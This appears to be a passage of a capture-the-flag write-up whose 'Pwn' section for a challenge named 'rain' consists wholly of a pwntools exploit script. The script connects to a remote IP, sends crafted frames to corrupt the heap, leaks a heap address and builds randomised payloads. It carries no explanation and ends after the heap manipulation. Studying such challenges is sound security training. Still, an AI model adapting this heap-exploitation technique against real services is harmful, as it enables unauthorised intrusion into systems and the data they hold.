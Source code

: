 
## Pwn
### rain
```python
from pwn import *
context.log_level="debug"
#r=process('./main')
r=remote('124.71.185.75',9999)

libc=ELF("./libc.so.6")

rand_file=open("./rand_list","rw")
rand_list=rand_file.read()
rand_list=rand_list.split("\n")
for i in range (len(rand_list)-1): rand_list[i]=int(rand_list[i],16)
for i in range (0x400): rand_list.append(0)
idx=0

def sen(heigh,width,front,back,rainfall,content=''):
	r.sendlineafter('ch> ','1')
	payload=p32(heigh)+p32(width)+p8(front)+p8(back)+p32(rainfall)
	payload=payload.ljust(18,'a')
	payload+=content
	r.sendafter('FRAME> ',payload)
	global idx
	if (content!=""): idx=idx+heigh*width

def create(content,total_len,strlen):
	payload_len=len(content)
	payload=[]
	for i in range(total_len):
		payload.append("a")
	global idx
	for i in range(payload_len):
		payload[rand_list[idx]%(strlen)]=content[i]
		idx=idx+1
	payload="".join(payload)
	return payload


sen(1,1,0,0,1,'a'*0x8)
sen(1,1,0,0,1,'')
sen(1,1,0,0,1,'')
r.sendlineafter('ch> ','2')

sen(1,0,0,0,1,p64(0x603080))
r.sendlineafter('ch> ','2')

r.recvuntil("Table:"+' '*0xC)
heap=u64(r.recvuntil('\n',drop=True).ljust(0x8,'\x00'))-0x8fa0
success("heap: "+hex(heap))

sen(1,1,0,0,1,'c'*0x100+p64(heap+0x90e8)+p64(heap+0x290))
sen(1,1,0,0,1,'a'*0x8)
sen(1,1,0,0,1,'')
sen(1,1,0,0,1,'')

sen(0,1,0,0,1,p64(heap+0x90e0))
sen(1,0x3,0,0,1,create("\x18\x2F\x60",0x58,0x5b))

sen(0x4,0x19,0,0,1,'\x00'*0x18)
r.sendlineafter('ch> ','2')
```